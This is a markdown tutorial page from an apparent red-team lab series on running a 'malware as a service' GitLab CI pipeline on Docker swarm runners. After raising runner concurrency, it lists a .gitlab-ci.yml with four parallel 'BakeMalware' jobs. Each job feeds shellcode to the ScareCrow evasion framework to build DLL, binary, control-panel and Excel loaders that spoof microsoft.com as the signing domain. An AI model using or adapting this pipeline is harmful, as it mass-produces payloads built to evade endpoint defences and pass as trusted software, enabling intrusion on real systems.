 ## Going Parallel

Because we have deployed multiple docker containers on our backend infrastructure,
we have the processing capability of executing pipeline jobs in parallel.
If the Gitlab configuration has different jobs listed in the same stage without any dependencies,
it will leverage concurrency to execute those jobs.

We have two different places in our architecture to take advantage of concurrency.
* First of all there is a concurrency setting in each gitlab runner **toml** configuration file.
* Secondly we can take advantage of the multiple containers that are deployed also.

For the sake of this exercise, we are going to follow these detailed steps.

1. Edit the **toml** configuration files and increased the concurrency setting to 2.
2. Redeploy the docker services to reflect the changes.
3. Edit the pipeline YAML file and configure four parallel jobs with a different ScareCrow malware command in each of the four jobs.
4. Execute the pipeline and observe the parallel jobs in action.

### Step 1: Changing the TOML configuration files

We already produced the TOML files to stand up our stack, so this step is as simple as editing each of the files and changing the concurreny option to 2.  Listed below is one of these files and as you can observe, it is very clear that concurrency is set to one and can be edited for our purposes.

![Alt text](image.png)

We can proceed with editing each of the TOML files and updating this number. This has in fact already been completed for you.

### Step 2: Rebuild the Docker container and update the service

Thw following command will rebuild the container and update the Docker service. You will need to be in the **runner** directory before running these commands.  You will also need to be logged in to your master docker host if you have more than one Linux backend server in your docker swarm.

```
$ docker build -t maas -f Dockerfile.DRAFT2 .
<... output omitted ...>

$ docker service update --force maas_maas
maas_maas
overall progress: 4 out of 4 tasks
1/4: running   [==================================================>]
2/4: running   [==================================================>]
3/4: running   [==================================================>]
4/4: running   [==================================================>]

```

### Step 3: Edit the pipeline YAML and configure 4 parallel jobs

In this step we are going to modify the **BakingMalware** stage such that there is 4 ScareCrow jobs rather than just a single job.

IMPORTANT: If you are running multiple docker servers and a docker swarm, the file storage **MUST** be shared between the two hosts at this stage. If you do not have this capability, then you should drop back to using a single docker server on the backend configured as the docker swarm master.

Here is a listing of the relevant section of the modified "**.gitlab-ci.yml**" file.

```
ScareCrow01:
    stage: BakeMalware
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader dll -domain microsoft.com

ScareCrow02:
    stage: BakeMalware
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader binary -domain microsoft.com

ScareCrow03:
    stage: BakeMalware
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader control -domain microsoft.com

ScareCrow04:
    stage: BakeMalware
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader excel -domain microsoft.com

```

### Step 4: Execute the Pipeline and Observe

As we did earlier, trigger the pipeline using the Gitlab UI and observe the different parallel jobs that are running in the **BakingMalware** stage.  If you happen to make an error in your command line parameters to ScareCrow (which I did), you can click into the failed job and examine the output.

![Alt text](images/image-3.png)

Output of the failed job is listed below.

![Alt text](images/image-6.png)


[Goto Next Document -->](./07-dynamic-child-pipeline.md)
